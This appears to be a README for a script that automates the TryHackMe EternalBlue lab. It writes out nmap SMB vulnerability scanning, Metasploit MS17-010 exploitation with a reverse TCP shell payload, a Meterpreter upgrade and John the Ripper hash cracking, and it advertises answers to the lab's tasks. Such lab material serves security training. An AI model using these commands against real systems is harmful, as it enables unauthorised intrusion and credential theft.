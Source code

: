 # 🔐 EternalBlue Lab Automation Script – TryHackMe

> 🧠 **For Educational Use Only**  
> Automates the EternalBlue exploitation lab on TryHackMe including scanning, exploiting MS17-010, and capturing flags.

---

## 📁 Features

- 📖 **Lab Description** with detailed background on EternalBlue
- 📋 **Checklist** to keep track of key lab tasks
- 🔌 **VPN Connection Setup** with `.ovpn` file
- ⚔️ **Metasploit-based Exploitation** using EternalBlue
- 🧠 **Post-Exploitation Commands** for Meterpreter shell
- 🔐 **Password Hash Cracking** with John the Ripper
- 🏁 **Flag Discovery** with hints and answers
- ![image](https://github.com/user-attachments/assets/379b023e-0c63-49b1-9189-db3ef3e34d4b)


---

## 🚀 How to Use

```bash
git clone https://github.com/yourname/eternalblue-lab
cd eternalblue-lab
chmod +x eternalblue-lab.sh
dos2unix eternalblue-lab.sh
./eternalblue-lab.sh

🧪 Menu Options
Option	Description
1️⃣	View Lab Description
2️⃣	View Task Checklist
3️⃣	Connect to VPN Only (.ovpn file required)
4️⃣	Start Full Exploitation Lab
5️⃣	View Questions and Answers for THM tasks
6️⃣	Exit

🛠️ Tools Used
Nmap – Port scanning and vulnerability detection

Metasploit – Exploitation of MS17-010 (EternalBlue)

John the Ripper – Cracking NTLM hashes

OpenVPN – VPN connection to TryHackMe network

nmap -p 445 --script smb-vuln* <TARGET_IP>

# Metasploit
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
set LHOST <YOUR_IP>
set PAYLOAD windows/x64/shell/reverse_tcp
exploit -j

# Post Exploitation
use post/multi/manage/shell_to_meterpreter
set SESSION <session_id>
exploit -j

# Cracking Passwords
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

🎯 Learning Objectives
✅ Understand EternalBlue and MS17-010
✅ Identify vulnerable SMB services
✅ Exploit Windows targets with Metasploit
✅ Practice real-world post-exploitation
✅ Learn ethical hacking techniques responsibly

⚠️ Disclaimer
This script is strictly for educational purposes.
Do NOT scan, exploit, or access unauthorized systems.
Always follow legal and ethical guidelines.

👨‍💻 Author
Kuntal Bera
Cybersecurity Student | Ethical Hacking Enthusiast

⭐ Give it a Star!
If you found this useful, consider starring the repository ❤️

⭐ github.com/yourname/eternalblue-lab
